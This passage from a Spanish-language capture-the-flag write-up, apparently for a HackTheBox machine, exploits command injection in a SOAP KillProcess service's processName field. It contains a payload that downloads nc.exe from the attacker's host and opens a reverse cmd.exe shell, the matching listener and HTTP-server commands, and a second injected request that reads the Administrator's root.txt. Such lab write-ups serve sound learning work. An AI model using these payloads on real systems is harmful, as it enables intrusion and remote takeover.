      <processName>notepad; iwr -uri "http://10.10.14.165/nc.exe" -OutFile "C:\Windows\Temp\nc.exe"; C:\Windows\Temp\nc.exe -e cmd.exe 10.10.14.165 4445 #</processName>
    </KillProcess>
  </soap:Body>
</soap:Envelope>
```
* Demoro en encontrarse

En una nueva terminal levantamos un servidor
```bash
python3 -m http.server 80
```
Usamos otra terminal para la escucha
```bash
rlwrap nc -lvnp 4445
```



```bash
# type C:\Users\Administrator\Desktop\root.txt
```

Un metodo ruidoso, pero igual efectivo serua poner eln el request lo siguiente:

```bash
POST /MonitorService HTTP/1.1
Host: 127.0.0.1:8000
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://tempuri.org/IMonitoringService/KillProcess"
Connection: close

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:KillProcess>
         <tem:processName>notepad; type C:\Users\Administrator\Desktop\root.txt</tem:processName>
      </tem:KillProcess>
   </soapenv:Body>
</soapenv:Envelope>
```